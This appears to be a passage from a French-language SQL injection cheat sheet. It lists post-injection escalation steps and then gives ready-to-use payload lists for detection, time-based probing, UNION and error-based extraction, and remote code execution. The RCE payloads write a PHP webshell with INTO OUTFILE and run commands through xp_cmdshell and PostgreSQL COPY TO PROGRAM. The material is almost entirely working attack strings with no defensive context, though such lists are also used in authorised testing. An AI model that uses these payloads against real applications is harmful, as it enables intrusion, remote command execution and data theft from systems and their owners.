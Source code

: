 ### ✅ Escalade :
1. **Webshell upload** - Via INTO OUTFILE
2. **Command execution** - xp_cmdshell, UDF
3. **Privilege escalation** - Admin DB, root OS
4. **Lateral movement** - Autres bases/serveurs
5. **Data exfiltration** - Dump complet

## 🎓 Payloads Courants

### Detection Payloads
```sql
-- Basiques
'
"
\'
\"
;
' OR 1=1--
' OR 'a'='a
' OR 1=1#
' OR 1=1/*

-- Time-based
'; WAITFOR DELAY '00:00:05'--
' AND SLEEP(5)--
'; SELECT pg_sleep(5)--
```

### Extraction Payloads
```sql
-- Union injection
' UNION SELECT null,null,null--
' UNION SELECT 1,2,3--
' UNION SELECT user(),database(),version()--
' UNION SELECT table_name,null FROM information_schema.tables--

-- Error-based
' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))--
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### RCE Payloads
```sql
-- File write
' UNION SELECT '<?php system($_GET[cmd]); ?>' INTO OUTFILE '/var/www/html/cmd.php'--

-- Command execution (SQL Server)
'; EXEC xp_cmdshell 'whoami'--

-- Command execution (PostgreSQL)
'; COPY (SELECT '') TO PROGRAM 'whoami'--
```
